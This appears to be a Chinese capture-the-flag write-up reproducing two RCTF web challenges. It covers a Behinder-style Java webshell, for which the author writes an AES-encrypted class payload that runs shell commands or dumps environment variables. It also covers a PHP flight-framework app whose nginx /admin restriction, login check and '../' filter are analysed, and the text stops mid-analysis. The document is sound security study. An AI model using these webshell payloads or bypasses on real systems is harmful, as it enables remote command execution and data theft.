

# 前言

RCTF当时没打，感觉还是错过了学习的机会。今天下午看firebasky师傅的github的时候偶然看到了RCTF的题目，所以打算找个时间把这个比赛的Web复现一下。


# ezshell

Misc里面的一道Web，get访问`/shell`之后可以得到源码反编译之后审计一下：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.lang.reflect.Method;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import sun.misc.BASE64Decoder;

@WebServlet({"/shell"})
public class shellbx extends HttpServlet {
    public shellbx() {
    }

    protected void service(HttpServletRequest request, HttpServletResponse response) {
        try {
            String k;
            if (request.getMethod().equals("POST")) {
                response.getWriter().write("post");
                k = "e45e329feb5d925b";
                HttpSession session = request.getSession();
                session.putValue("u", k);
                Cipher c = Cipher.getInstance("AES");
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                byte[] evilClassBytes = (new BASE64Decoder()).decodeBuffer(request.getReader().readLine());

                class U extends ClassLoader {
                    U(ClassLoader c) {
                        super(c);
                    }

                    public Class g(byte[] b) {
                        return super.defineClass(b, 0, b.length);
                    }
                }

                Class evilClass = (new U(this.getClass().getClassLoader())).g(c.doFinal(evilClassBytes));
                Object a = evilClass.newInstance();
                Method b = evilClass.getMethod("e", Object.class, Object.class);
                b.invoke(a, request, response);
            } else {
                k = "ROOT.war";
                String path = System.getProperty("user.dir") + File.separator + ".." + File.separator + "webapps" + File.separator + k;
                File file = new File(path);
                String filename = file.getName();
                BufferedInputStream fis = new BufferedInputStream(new FileInputStream(path));
                byte[] buffer = new byte[fis.available()];
                fis.read(buffer);
                fis.close();
                response.reset();
                response.addHeader("Content-Disposition", "attachment;filename=" + new String(filename.getBytes()));
                response.addHeader("Content-Length", "" + file.length());
                BufferedOutputStream toClient = new BufferedOutputStream(response.getOutputStream());
                response.setContentType("application/octet-stream");
                toClient.write(buffer);
                toClient.flush();
                toClient.close();
            }
        } catch (Exception var10) {
        }

    }
}

```

很明显的类似冰蝎那个jsp马，但是连不上，查了一下说是因为冰蝎还存在密钥协商的过程。

不过代码的逻辑还是很容易理解的，就是post传过去一个先经过AES加密再经过Base64加密的一个恶意类的字节码，然后调用这个类的`e()`方法。

所以就写这么个恶意类，然后产生payload：

```java
package com.feng.test;

import javassist.ClassPool;
import javassist.CtClass;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;
import java.util.Base64;

public class Evil {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("com.feng.test.Evil");
        byte[] code = clazzz.toBytecode();
        String k = "e45e329feb5d925b";
        Cipher c = Cipher.getInstance("AES");
        c.init(1, new SecretKeySpec(k.getBytes(), "AES"));
        byte[] bytes = c.doFinal(code);
        String str = new String(Base64.getEncoder().encode(bytes));
        System.out.println(str);
    }
    //HttpServletRequest request, HttpServletResponse response
    public void e(Object req,Object resp) throws Exception{
        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) resp;
        String[] cmd = {"/bin/sh","-c",request.getParameter("cmd")};
        //String[] cmd = {"cmd","/c",request.getParameter("cmd")};
        Process inProcess = (Process) Runtime.getRuntime().exec(cmd);


        InputStream in = inProcess.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        String line;

        byte[] bcache = new byte[1024];
        int readSize = 0;
        try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
            while ((readSize =in.read(bcache))!=-1){
                outputStream.write(bcache,0,readSize);
            }
            response.getWriter().println(outputStream.toString());
            //System.out.println(outputStream.toString());
        }
    }
}

```

然后我本地打通了复现的docker那边死活没回显：



看了一下各种writeup，才看到好像题目的环境是不出网，过滤了内存马和命令执行，还给了个提示：冰蝎basicinfo。

这个`basicinfo`是啥，咱也不知道，咱也不敢问，把冰蝎的那个jar包解压缩然后拿IDEA打开，查找一下`basicinfo`，找到了`net/rebeyond/behinder/payload/java/BasicInfo.class`：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package net.rebeyond.behinder.payload.java;

import java.io.File;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;
import java.util.Properties;
import java.util.Set;
import java.util.Map.Entry;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

public class BasicInfo {
    public static String whatever;
    private Object Request;
    private Object Response;
    private Object Session;

    public BasicInfo() {
    }

    public boolean equals(Object obj) {
        String result = "";
        boolean var22 = false;

        Object so;
        Method write;
        label132: {
            try {
                var22 = true;
                this.fillContext(obj);
                StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
                Map<String, String> env = System.getenv();
                Iterator var5 = env.keySet().iterator();

                while(var5.hasNext()) {
                    String name = (String)var5.next();
                    basicInfo.append(name + "=" + (String)env.get(name) + "<br/>");
                }

                basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
                Properties props = System.getProperties();
                Set<Entry<Object, Object>> entrySet = props.entrySet();
                Iterator var7 = entrySet.iterator();

                while(var7.hasNext()) {
                    Entry<Object, Object> entry = (Entry)var7.next();
                    basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
                }

                String currentPath = (new File("")).getAbsolutePath();
                String driveList = "";
                File[] roots = File.listRoots();
                File[] var10 = roots;
                int var11 = roots.length;

                for(int var12 = 0; var12 < var11; ++var12) {
                    File f = var10[var12];
                    driveList = driveList + f.getPath() + ";";
                }

                String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
                Map<String, String> entity = new HashMap();
                entity.put("basicInfo", basicInfo.toString());
                entity.put("currentPath", currentPath);
                entity.put("driveList", driveList);
                entity.put("osInfo", osInfo);
                entity.put("arch", System.getProperty("os.arch"));
                result = this.buildJson(entity, true);
                var22 = false;
                break label132;
            } catch (Exception var26) {
                var22 = false;
            } finally {
                if (var22) {
                    try {
                        Object so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                        Method write = so.getClass().getMethod("write", byte[].class);
                        write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
                        so.getClass().getMethod("flush").invoke(so);
                        so.getClass().getMethod("close").invoke(so);
                    } catch (Exception var23) {
                    }

                }
            }

            try {
                so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                write = so.getClass().getMethod("write", byte[].class);
                write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
                so.getClass().getMethod("flush").invoke(so);
                so.getClass().getMethod("close").invoke(so);
            } catch (Exception var24) {
            }

            return true;
        }

        try {
            so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
            write = so.getClass().getMethod("write", byte[].class);
            write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
            so.getClass().getMethod("flush").invoke(so);
            so.getClass().getMethod("close").invoke(so);
        } catch (Exception var25) {
        }

        return true;
    }

    private byte[] Encrypt(byte[] bs) throws Exception {
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        byte[] raw = key.getBytes("utf-8");
        SecretKeySpec skeySpec = new SecretKeySpec(raw, "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, skeySpec);
        byte[] encrypted = cipher.doFinal(bs);
        return encrypted;
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        Iterator var5 = entity.keySet().iterator();

        while(var5.hasNext()) {
            String key = (String)var5.next();
            sb.append("\"" + key + "\":\"");
            String value = ((String)entity.get(key)).toString();
            if (encode) {
                Class Base64;
                Object Encoder;
                if (version.compareTo("1.9") >= 0) {
                    this.getClass();
                    Base64 = Class.forName("java.util.Base64");
                    Encoder = Base64.getMethod("getEncoder", (Class[])null).invoke(Base64, (Object[])null);
                    value = (String)Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    this.getClass();
                    Base64 = Class.forName("sun.misc.BASE64Encoder");
                    Encoder = Base64.newInstance();
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest").invoke(obj);
            this.Response = obj.getClass().getMethod("getResponse").invoke(obj);
            this.Session = obj.getClass().getMethod("getSession").invoke(obj);
        } else {
            Map<String, Object> objMap = (Map)obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }

        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }
}

```

看这样子是输出env还有一些系统基础的东西，也没有涉及到命令执行，所以可能就是flag在环境变量里。所以其实直接把`System.getenv()`的结果输出出来可能也能得到flag，为了保险把冰蝎的这个basicInfo魔改一下：

```java
package com.feng.test;

import javassist.ClassPool;
import javassist.CtClass;
import java.util.Map.Entry;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Method;
import java.util.*;

public class Evil {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("com.feng.test.Evil");
        byte[] code = clazzz.toBytecode();
        String k = "e45e329feb5d925b";
        Cipher c = Cipher.getInstance("AES");
        c.init(1, new SecretKeySpec(k.getBytes(), "AES"));
        byte[] bytes = c.doFinal(code);
        String str = new String(Base64.getEncoder().encode(bytes));
        System.out.println(str);
    }
    //HttpServletRequest request, HttpServletResponse response
    public void e(Object req,Object resp) throws Exception{
        HttpServletResponse response = (HttpServletResponse) resp;
        String result = "";

        try {
            StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
            Map<String, String> env = System.getenv();
            Iterator var5 = env.keySet().iterator();

            while(var5.hasNext()) {
                String name = (String)var5.next();
                basicInfo.append(name + "=" + (String)env.get(name) + "<br/>");
            }

            basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
            Properties props = System.getProperties();
            Set<Entry<Object, Object>> entrySet = props.entrySet();
            Iterator var7 = entrySet.iterator();

            while(var7.hasNext()) {
                Entry<Object, Object> entry = (Entry)var7.next();
                basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
            }

            String currentPath = (new File("")).getAbsolutePath();
            String driveList = "";
            File[] roots = File.listRoots();
            File[] var10 = roots;
            int var11 = roots.length;

            for(int var12 = 0; var12 < var11; ++var12) {
                File f = var10[var12];
                driveList = driveList + f.getPath() + ";";
            }

            String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
            Map<String, String> entity = new HashMap();
            entity.put("basicInfo", basicInfo.toString());
            entity.put("currentPath", currentPath);
            entity.put("driveList", driveList);
            entity.put("osInfo", osInfo);
            entity.put("arch", System.getProperty("os.arch"));
            result = this.buildJson(entity, false);
        } catch (Exception var26) {
        } finally {
                try {
                    response.getWriter().println(result);
                } catch (Exception var23) {
                }
        }
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        Iterator var5 = entity.keySet().iterator();

        while(var5.hasNext()) {
            String key = (String)var5.next();
            sb.append("\"" + key + "\":\"");
            String value = ((String)entity.get(key)).toString();
            if (encode) {
                Class Base64;
                Object Encoder;
                if (version.compareTo("1.9") >= 0) {
                    this.getClass();
                    Base64 = Class.forName("java.util.Base64");
                    Encoder = Base64.getMethod("getEncoder", (Class[])null).invoke(Base64, (Object[])null);
                    value = (String)Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    this.getClass();
                    Base64 = Class.forName("sun.misc.BASE64Encoder");
                    Encoder = Base64.newInstance();
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }
}

```

运行main产生payload打过去就行。


# EasyPHP

先分析一下nginx.conf，也是一个一个查的来好好的学一波。

listen：监听设置。


server_name：设置虚拟主机的名称，域名，可以通配符、正则。

如果当一个名称匹配多个 server 的是时候，匹配优先级如下：

1. 确切的名称
2. 以 * 开头的最长的通配符名称
3. 以 * 结尾的最长通配符名称
4. 第一个匹配的正则表达式


location：根据 URI 进行配置设置。

```
location [ = | ~ | ~* | ^~ ] uri { ... }
```

- **none**，如果没有修饰符，则将该位置解释为前缀匹配。这意味着给定的位置将根据请求URI的开头进行匹配，以确定匹配
- `=`，代表精确匹配，完全相等即匹配
- `~`，区分大小写的正则表达式匹配
- `~*`，不区分大小写的正则表达式匹配
- `^~`，普通字符匹配，如果该选项匹配，只匹配该选项

所以本题中的都是`None`，即为前缀匹配，Z3ratu1师傅就是利用了这个前缀匹配的漏洞对`/admin`进行了绕过。


allow和deny：指令是由ngx_http_access_module模块提供，用于访问控制，用于ip控制。本题里面肯定就是匹配`/admin`前缀的只允许ip为127.0.0.1的访问。


try_files：其作用是按顺序检查文件是否存在，返回第一个找到的文件或文件夹(结尾加斜线表示为文件夹)，如果所有的文件或文件夹都找不到，会进行一个内部重定向到最后一个参数。

在这里其实就是，先检查`$document_root$uri`是否存在，如果不存在就内部重定向到`@phpfpm`：

```nginx
    location @phpfpm {
        include        fastcgi_params;
        fastcgi_split_path_info ^(.+?\.php)(/.*)$;
        fastcgi_pass   php:9000;
        fastcgi_index  index.php;
        fastcgi_param  SCRIPT_FILENAME  $document_root/index.php;
        fastcgi_param  REQUEST_URI  $uri;
    }
```

它最上面设置了`root   /var/www/html;`，而`$url`就是请求那部分了，比如请求`/admin?hello=world`，那么`nginx`这里的`$url`是`/admin`。

所以这里很明显是被转交给`@phpfpm`处理。


fastcgi_pass：address为后端的fastcgi server的地址。

fastcgi_index：fastcgi默认的主页资源。

fastcgi_param：传递给FastCGI服务器的参数值，可以是文本，变量或组合。

需要注意到这个`REQUEST_URI`是`$uri`，这个就比较重要了，后面会利用到。


接下来开始本题的解题。

看一下index.php里面的路由，各种操作：

```php
<?php
session_start();
require 'flight/autoload.php';
use flight\Engine;
$app = new Engine();

$username = "admin";
$password = uniqid("asdfsadf",true)."YouWillNerveKnow";// you will never know the password

function isdanger($v){
    if(is_array($v)){
        foreach($v as $k=>$value){
            if(isdanger($k)||isdanger($value)){
                return true;
            }
        }
    }else{
        if(strpos($v,"../")!==false){
            return true;
        }
    }
    return false;
}

$app->before("start",function(){
    foreach([$_GET,$_POST,$_COOKIE,$_FILES] as $value){
        if(isdanger($value)){
            die("go away hack");
        }
    }
});
$app->route('/*', function(){
    global $app;
    $request = $app->request();
    $app->render("head",[],"head_content");
    if(stristr($request->url,"login")!==FALSE){
        return true;
    }else{
        if($_SESSION["user"]){
            return true;
        }
        $app->redirect("/login");
    }

    
});


$app->route('/admin', function(){
    global $app;
    $request = $app->request();
    $app->render("admin",["data"=>"./".$request->query->data],"body_content");
    $app->render("template",[]);
});

$app->route("GET /login",function(){
    global $app;
    $request = $app->request();
    $app->render("login",["fail"=>$request->query->fail],"body_content");
    $app->render("template",[]);
});

$app->route("POST /login",function(){
    global $username,$password,$app;
    $request  = $app->request();
    if($request->data->username === $username && $request->data->password === $password){
        $_SESSION["user"] = $username;
        $app->redirect("/");
        return;
    }
    $app->redirect("/login?fail=1");
});

$app->route("GET /",function(){
    global $app;
    $app->render("index",[],"body_content");
    $app->render("template",[]);
});

$app->start();

```

在admin视图里面发现了任意文件读取：

```php

<h3>File List:</h3>
<script>
</script>
<div class="bg-light border rounded-3" style="white-space: pre-line">
    <?php
        $dir = pathinfo($data?$data:".",PATHINFO_DIRNAME);
        foreach(scandir($dir) as $v){
            echo "<a href=\"/admin?data=$dir/$v\">$v</a><br />";
        }
    ?>
</div>
<?php if ($data) { ?><h3><?= $data . ":" ?></h3>
    <div class="bg-light border rounded-3"><code style="white-space: pre-line"><?php echo file_get_contents($data); ?></code></div><?php } ?>
```

所以利用点就是`/admin`路由了。

所以第一步就是`/admin`路由的绕过，因为nginx对这里做了只允许本地访问。


首先还是先简单的分析一下flight框架的整个流程吧。

关键的`$app`是个`Engine`类：`$app = new Engine();`。这部分的初始化可以跳过，唯一需要注意的就是初始化中某些默认的设置（比如路由默认不区分大小写）。

接下来的就是`$app->before(xxxx,xxxx)`还有`$app->$app->route(xxxx,xxxx)`了，`before`这里就大致知道，在路径处理之前调用那个回调函数即可。看一下route()的运作，比如第一个：

```php
$app->route('/*', function(){
    global $app;
    $request = $app->request();
    $app->render("head",[],"head_content");
    if(stristr($request->url,"login")!==FALSE){
        return true;
    }else{
        if($_SESSION["user"]){
            return true;
        }
        $app->redirect("/login");
    }
});
```

第一个参数是路由（也可能包含请求方法），第二个参数就是访问这个路由时调用的回调函数（也就是相应的处理了）。

对于`route`，调用的函数其实是`Engine.php`的`_route()`：

```php
    public function _route($pattern, $callback, $pass_route = false) {
        $this->router()->map($pattern, $callback, $pass_route);
    }
```

`router()`产生router类的对象，然后调用它的`map()`方法：

```php
    public function map($pattern, $callback, $pass_route = false) {
        $url = $pattern;
        $methods = array('*');

        if (strpos($pattern, ' ') !== false) {
            list($method, $url) = explode(' ', trim($pattern), 2);
            $url = trim($url);
            $methods = explode('|', $method);
        }

        $this->routes[] = new Route($url, $callback, $methods, $pass_route);
    }
```

其实就是根据提供的参数创建`Route`对象，添加到`$this>routes[]`里面，`Route`对象里面包括请求的url（可能包含通配符），回调函数，请求的方式（Get,Post）等。


创建这么多个`Route`对象之后，最后一行`$app->start();`。虽然它这里实际上调用的是`_start()`方法，但是中间的处理还是需要跟进一下的，因为之前的那个`before()`设置的waf就是在这里调用到的。


先是进去`__call()`方法：

```php
    public function __call($name, $params) {
        $callback = $this->dispatcher->get($name);

        if (is_callable($callback)) {
            return $this->dispatcher->run($name, $params);
        }

        if (!$this->loader->get($name)) {
            throw new \Exception("{$name} must be a mapped method.");
        }

        $shared = (!empty($params)) ? (bool)$params[0] : true;

        return $this->loader->load($name, $shared);
    }
```

`$name`是`start`，得到了一个`$callback`，然后进入`$this->dispatcher->run($name, $params);`：

```php
    public function run($name, array $params = array()) {
        $output = '';

        // Run pre-filters
        if (!empty($this->filters[$name]['before'])) {
            $this->filter($this->filters[$name]['before'], $params, $output);
        }

        // Run requested method
        $output = $this->execute($this->get($name), $params);

        // Run post-filters
        if (!empty($this->filters[$name]['after'])) {
            $this->filter($this->filters[$name]['after'], $params, $output);
        }

        return $output;
    }
```

可以发现那个Run pre-filters，就是调用之前waf的那个回调函数，就不细跟了，知道那个waf在这里调用的就可以了：

```php
    foreach([$_GET,$_POST,$_COOKIE,$_FILES] as $value){
        if(isdanger($value)){
            die("go away hack");
        }
    }
```

执行完` pre-filters`之后就是`$output = $this->execute($this->get($name), $params);`，跟进：

```php
    public static function execute($callback, array &$params = array()) {
        if (is_callable($callback)) {
            return is_array($callback) ?
                self::invokeMethod($callback, $params) :
                self::callFunction($callback, $params);
        }
        else {
            throw new \Exception('Invalid callback specified.');
        }
    }
```

进入self::invokeMethod($callback, $params) :，最终调用：

```php
        switch (count($params)) {
            case 0:
                return ($instance) ?
                    $class->$method() :
                    $class::$method();
```

进入`_start()`：

```php
    public function _start() {
        $dispatched = false;
        $self = $this;
        $request = $this->request();
        $response = $this->response();
        $router = $this->router();

        // Allow filters to run
        $this->after('start', function() use ($self) {
            $self->stop();
        });

        // Flush any existing output
        if (ob_get_length() > 0) {
            $response->write(ob_get_clean());
        }

        // Enable output buffering
        ob_start();

        // Route the request
        while ($route = $router->route($request)) {
            $params = array_values($route->params);

            // Add route info to the parameter list
            if ($route->pass) {
                $params[] = $route;
            }

            // Call route handler
            $continue = $this->dispatcher->execute(
                $route->callback,
                $params
            );

            $dispatched = true;

            if (!$continue) break;

            $router->next();

            $dispatched = false;
        }

        if (!$dispatched) {
            $this->notFound();
        }
    }
```

考虑到后面需要取`$request->query->data`，还需要关注一下`request`的产生：`$request = $this->request();`，继续跟进一下就可以看到是在这里调用了`newInstance`：

```php
            if ($shared) {
                $obj = ($exists) ?
                    $this->getInstance($name) :
                    $this->newInstance($class, $params);
```

然后创建实例：

```php
        switch (count($params)) {
            case 0:
                return new $class();
```

关注`Request`类对象的`query`属性的产生：

```php
    public function __construct($config = array()) {
        // Default properties
        if (empty($config)) {
            $config = array(
                'url' => str_replace('@', '%40', self::getVar('REQUEST_URI', '/')),
                'base' => str_replace(array('\\',' '), array('/','%20'), dirname(self::getVar('SCRIPT_NAME'))),
                'method' => self::getMethod(),
                'referrer' => self::getVar('HTTP_REFERER'),
                'ip' => self::getVar('REMOTE_ADDR'),
                'ajax' => self::getVar('HTTP_X_REQUESTED_WITH') == 'XMLHttpRequest',
                'scheme' => self::getScheme(),
                'user_agent' => self::getVar('HTTP_USER_AGENT'),
                'type' => self::getVar('CONTENT_TYPE'),
                'length' => self::getVar('CONTENT_LENGTH', 0),
                'query' => new Collection($_GET),
                'data' => new Collection($_POST),
                'cookies' => new Collection($_COOKIE),
                'files' => new Collection($_FILES),
                'secure' => self::getScheme() == 'https',
                'accept' => self::getVar('HTTP_ACCEPT'),
                'proxy_ip' => self::getProxyIpAddress(),
                'host' => self::getVar('HTTP_HOST'),
            );
        }

        $this->init($config);
```

`new Collection($_GET)`其实就是创建个类，它的data属性就是`$_GET`

```
    public function __construct(array $data = array()) {
        $this->data = $data;
    }
```


而在init()中则有了很关键的处理：

```php
    public function init($properties = array()) {
        // Set all the defined properties
        foreach ($properties as $name => $value) {
            $this->$name = $value;
        }

        // Get the requested URL without the base directory
        if ($this->base != '/' && strlen($this->base) > 0 && strpos($this->url, $this->base) === 0) {
            $this->url = substr($this->url, strlen($this->base));
        }
        // Default url
        if (empty($this->url)) {
            $this->url = '/';
        }
        // Merge URL query parameters with $_GET
        else {
            $_GET += self::parseQuery($this->url);
            var_dump($_GET);
            $this->query->setData($_GET);
        }

        // Check for JSON input
        if (strpos($this->type, 'application/json') === 0) {
            $body = $this->getBody();
            if ($body != '') {
                $data = json_decode($body, true);
                if (is_array($data)) {
                    $this->data->setData($data);
                }
            }
        }

    }
```

注意到这里的`self::getVar('SCRIPT_NAME')`其实就是`$fastcgi_script_name`，这地方其实可以认为就是和`$url`是内容相同的东西，然后dirname处理一下，其实就是取得最后一个`/`之前的内容。

然后再看：

```php
        if ($this->base != '/' && strlen($this->base) > 0 && strpos($this->url, $this->base) === 0) {
            $this->url = substr($this->url, strlen($this->base));
        }
```

就相当于把`url`最后一个`/`之前的内容都给去掉了，这个处理在这个nginx.conf的情况下就很容易把`/admin`这个deny的waf给绕了，比如`/feng/admin`，即可绕nginx，但最后处理的却还是`/admin`，但是Nginx那里却绕过了以`/admin`开头的限制waf。继续分析。


先调用`self::parseQuery($this->url);`：

```php
    public static function parseQuery($url) {
        $params = array();

        $args = parse_url($url);
        if (isset($args['query'])) {
            parse_str($args['query'], $params);
        }

        return $params;
    }
```

先进行解析，然后再对`query`部分再进行一次`parse_str`将参数转换成数组。这里需要注意的就是，`parse_str`会url解码一次，把这个点记住，很关键。

把返回的结果放进`$_GET`，然后再把它设置成`$this->query->data`。至此`$this->query->data`的来源就搞清楚了。回到`_start()`方法继续跟进这个while循环：

```php
        while ($route = $router->route($request)) {
            $params = array_values($route->params);

            // Add route info to the parameter list
            if ($route->pass) {
                $params[] = $route;
            }

            // Call route handler
            $continue = $this->dispatcher->execute(
                $route->callback,
                $params
            );

            $dispatched = true;

            if (!$continue) break;

            $router->next();

            $dispatched = false;
        }
```

跟进`$router->route($request)`：

```php
    public function route(Request $request) {

        $url_decoded = urldecode( $request->url );

        while ($route = $this->current()) {
            if ($route !== false && $route->matchMethod($request->method) && $route->matchUrl($url_decoded, $this->case_sensitive)) {
                return $route;
            }
            $this->next();
        }

        return false;
    }
```

又是一个很关键的地方，它会对当前请求的url进行一次url解码，要记住这个点。

然后遍历`$this->routes`，找到当前的路由和`$this->routes`中设置的对应的路由路径匹配上的，请求方法也匹配的，就把这个`$route`返回，返回之后其实就是调用设置的回调函数了：

```php
            // Call route handler
            $continue = $this->dispatcher->execute(
                $route->callback,
                $params
            );
```

弄清楚了整个流程，再回过头来看看匹配路由的那个函数`$route->matchUrl($url_decoded, $this->case_sensitive)`：

```php
    public function matchUrl($url, $case_sensitive = false) {
        // Wildcard or exact match
        if ($this->pattern === '*' || $this->pattern === $url) {
            return true;
        }

        $ids = array();
        $last_char = substr($this->pattern, -1);

        // Get splat
        if ($last_char === '*') {
            $n = 0;
            $len = strlen($url);
            $count = substr_count($this->pattern, '/');

            for ($i = 0; $i < $len; $i++) {
                if ($url[$i] == '/') $n++;
                if ($n == $count) break;
            }

            $this->splat = (string)substr($url, $i+1);
        }

        // Build the regex for matching
        $regex = str_replace(array(')','/*'), array(')?','(/?|/.*?)'), $this->pattern);

        $regex = preg_replace_callback(
            '#@([\w]+)(:([^/\(\)]*))?#',
            function($matches) use (&$ids) {
                $ids[$matches[1]] = null;
                if (isset($matches[3])) {
                    return '(?P<'.$matches[1].'>'.$matches[3].')';
                }
                return '(?P<'.$matches[1].'>[^/\?]+)';
            },
            $regex
        );

        // Fix trailing slash
        if ($last_char === '/') {
            $regex .= '?';
        }
        // Allow trailing slash
        else {
            $regex .= '/?';
        }

        // Attempt to match route and named parameters
        if (preg_match('#^'.$regex.'(?:\?.*)?$#'.(($case_sensitive) ? '' : 'i'), $url, $matches)) {
            foreach ($ids as $k => $v) {
                $this->params[$k] = (array_key_exists($k, $matches)) ? urldecode($matches[$k]) : null;
            }

            $this->regex = $regex;

            return true;
        }

        return false;
    }
```

又是一堆又臭又长的正则匹配代码。。。正则就不看了，有个处理上的细节需要注意。注意到题目一开始注册的路由：

```php
$app->route('/*', function(){
    global $app;
    $request = $app->request();
    $app->render("head",[],"head_content");
    if(stristr($request->url,"login")!==FALSE){
        return true;
    }else{
        if($_SESSION["user"]){
            return true;
        }
        $app->redirect("/login");
    }
});
```

必须要求登录成功或者`stristr($request->url,"login")!==FALSE`才可以`return true`，登录肯定是不可能了，所以只能`stristr($request->url,"login")!==FALSE`，这部分即使不看那个正则，也知道该怎么绕了，传个`?login`即可。


那么分析了这么多，接下来就该正式解题了。首先就是这个：

```nginx
    location /admin {
        allow 127.0.0.1;
        deny all;
    }
```

三种方法吧，一种就是利用之前提到的，会截掉最后一个`/`值钱的东西，所以拿`/feng/admin`来绕过。第二种就利用默认不区分大小写这个点，拿大小写绕过即可。第三种就是利用上面处理路由的时候会url解码一次，把路由url编码来绕过即可。

然后就是绕这里：

```php
$app->route('/*', function(){
    global $app;
    $request = $app->request();
    $app->render("head",[],"head_content");
    if(stristr($request->url,"login")!==FALSE){
        return true;
    }else{
        if($_SESSION["user"]){
            return true;
        }
        $app->redirect("/login");
    }
});
```

很容易了，要么`?login`，要么`/login/admin`都可以。

但是最后的那个路径穿越的waf就有一点难绕过了：

```php
function isdanger($v){
    if(is_array($v)){
        foreach($v as $k=>$value){
            if(isdanger($k)||isdanger($value)){
                //return true;
                //return false;
            }
        }
    }else{
        if(strpos($v,"../")!==false){
            return true;
        }
    }
    return false;
}
```

必须要结合nginx来进行分析。已知的有这些：

